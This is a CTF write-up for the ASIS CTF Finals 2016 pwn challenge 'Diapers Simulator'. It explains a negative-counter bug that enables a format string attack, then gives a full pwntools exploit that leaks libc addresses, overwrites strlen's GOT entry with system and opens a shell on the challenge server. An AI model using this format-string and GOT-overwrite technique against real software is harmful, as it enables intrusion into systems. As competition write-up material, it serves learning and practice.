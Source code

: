 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/asis-ctf-finals-2016-diapers-simulator/
  - /blog/2016/09/12/asis-ctf-finals-2016-diapers-simulator/
date: "2016-09-12T02:26:40+09:00"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "format-string-attack" ]
---
```


# ASIS CTF Finals 2016: Diapers Simulator

Only doing.

## solution

If the value of wetness is negative, you can overwrite the sponsor's message and do format string attack.

The struct is like below:

``` c
struct diaper_t {
    char brand[12];
    int wetness;
    char sponsor_message[];
};
```

`1) Change Diapers` can make the `wetness` negative.
`3. Bunny Rabbit` fills `brand` with $12$ bytes without null byte.
`0) Change Brand` use `strlen` to know the length and this allows us to modify the `sponsor_message`.
`2) Leave` has a format string bug with `sponsor_message`.
Now, you can do format string attack.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='diapers.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=1343, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./diapers')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

p = remote(args.host, args.port)
p.recvuntil('> ')
p.sendline('3')
for i in range(257):
    p.recvuntil('> ')
    p.sendline('1')
buflen = 108
offset = 15
def fsa(s, header=''):
    payload = ''
    payload += header
    assert len(payload) <= offset
    payload += ' ' * (offset - len(payload))
    payload += s
    assert len(payload) <= buflen
    payload += ' ' * (buflen - len(payload))
    p.recvuntil('> ')
    p.sendline('0')
    p.send(payload)
    p.recvuntil('> ')
    p.sendline('2')
    x = 'And now a message from our sponsors:\n'
    y = "Sorry, you're not allowed to leave your baby unless it's dry!\n"
    p.recvuntil(x)
    return p.recvuntil(y)[ : - len(y) ]

assert fsa('%18$p').startswith('%#x' % u32('%18$'))

# leak libc
libc_start_main  = u32(fsa('%20$s   ' + p32(elf.got['__libc_start_main']))[: 4])
setvbuf          = u32(fsa('%20$s   ' + p32(elf.got['setvbuf']))[: 4])
log.info('__libc_start_main: %#x', libc_start_main)
log.info('setvbuf: %#x', setvbuf)
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)

# got overwrite
write = { elf.got['strlen']: libc_base + libc.symbols['system'] }
payload = fmtstr.fmtstr_payload(18, write)
log.info('payload:\n' + fiddling.hexdump(payload))
fsa(payload, header='/bin/sh\0')

# run
p.recvuntil('> ')
p.sendline('0')

time.sleep(1)
p.sendline('id')
p.interactive()
```
